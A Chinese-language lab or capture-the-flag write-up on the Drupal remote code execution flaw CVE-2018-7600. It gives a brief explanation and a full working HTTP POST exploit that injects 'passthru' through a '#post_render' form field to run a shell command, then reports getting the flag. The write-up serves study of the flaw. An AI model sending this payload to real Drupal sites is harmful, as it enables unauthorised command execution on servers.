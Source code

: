 # Drupal 远程代码执行漏洞(CVE-2018-7600) by [anonymity3712](https://github.com/anonymity3712)

## 漏洞描述

Drupal 在 3 月 28 日爆出一个远程代码执行漏洞，CVE 编号 CVE-2018-7600，通过对比官方的补丁，可以得知是请求中存在 # 开头的参数。Drupal Render API 对于 # 有特殊处理。

## writeup 

访问靶机地址

![](./20200509093232.png)

直接构造poc代码

```
POST /user/register?element_parents=account/mail/%23value&ajax_form=1&_wrapper_format=drupal_ajax HTTP/1.1
Host: 靶机地址
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://靶机地址/user/register
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------99533888113153068481322586663
Content-Length: 626
Connection: close

-----------------------------99533888113153068481322586663
Content-Disposition: form-data; name="mail[#post_render][]"

passthru
-----------------------------99533888113153068481322586663
Content-Disposition: form-data; name="mail[#type]"

markup
-----------------------------99533888113153068481322586663
Content-Disposition: form-data; name="mail[#markup]"

ls -l /tmp
-----------------------------99533888113153068481322586663
Content-Disposition: form-data; name="form_id"

user_register_form
-----------------------------99533888113153068481322586663
Content-Disposition: form-data; name="_drupal_ajax"
```
放到burp中利用

![](./20200508161436.png)

成功获取到flag文件

